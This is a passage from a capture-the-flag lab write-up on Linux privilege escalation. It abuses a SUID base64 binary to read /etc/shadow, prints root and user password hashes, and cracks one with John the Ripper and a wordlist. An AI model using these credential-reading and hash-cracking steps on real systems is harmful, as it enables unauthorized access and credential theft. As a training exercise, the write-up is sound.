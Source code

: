 ```console
17787689   24 -rwsr-xr-x   1 root     root        23576 Apr  1  2020 /usr/bin/pkexec
18382172   52 -rwsr-xr-x   1 root     root        53048 Oct 30  2018 /usr/bin/at
20386935  144 ---s--x--x   1 root     root       147336 Sep 30  2020 /usr/bin/sudo
```
We have a ton of binaries with SUID bit set, so this looks promising! Now it was just a question of going through [GTFOBins](https://gtfobins.github.io/#), filtered by "SUID". And indeed we get a hit, namely it looks like we can exploit the `base64` binary to read files, as we did in task 7. This means we run the following snippet to read the password hashes of `root` and `missy`:
```console
[leonard@ip-10-10-40-207 ~]$ base64 /etc/shadow | base64 --decode
```
Reading through the file, we note down the two hashes:
```text
root: $6$DWBzMoiprTTJ4gbW$g0szmtfn3HYFQweUPpSUCgHXZLzVii5o6PM0Q2oMmaDD9oGUSxe1yvKbnYsaSYHrUEQXTjIwOW/yrzV5HtIL51
missy: $6$BjOlWE21$HwuDvV1iSiySCNpA3Z9LxkxQEqUAdZvObTxJxMoCp/9zRVCi6/zrlMlAQPAxfwaD2JCUypk4HaNzI3rPVqKHb/
```
Notice that, at this point, we could simply run
```console
[leonard@ip-10-10-40-207 ~]$ base64 /home/rootflag/flag2.txt | base64 --decode
```
in order to capture the second flag, since we know its location. Instead, we will continue escalating to root privileges, as this was the goal.

Now the task is to crack the two hashes that we just obtained. For this, I used John the Ripper. It turned out that the root password was hard to crack, or at least I did not have much patience, but we quickly get a hit for missy's password:
```console
┌──(kali㉿kali)-[~/Desktop/capstone]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt hash-root.txt 
Created directory: /home/kali/.john
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:03:23 4.28% (ETA: 16:12:10) 0g/s 3471p/s 3471c/s 3471C/s RAIDERS7..OCTOBER7
Session aborted

┌──(kali㉿kali)-[~/Desktop/capstone]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt hash-missy.txt
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Password1        (?)     
1g 0:00:00:00 DONE (2025-10-02 14:57) 1.052g/s 4042p/s 4042c/s 4042C/s adriano..dodgers
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
With missy's password `Password1`, we can now switch user via `su - missy`. Once we are logged into this user account, the search for vulnerabilities starts from the beginning. First, we get a hint about the location of `flag1.txt`, again from the `history`: 
```console
[missy@ip-10-10-40-207 ~]$ history
    1  ls
    2  cd missy/
    3  ls
    4  cd Do
    5  cd Documents
    6  ls
    7  cat flag1.txt 
    8  su root
```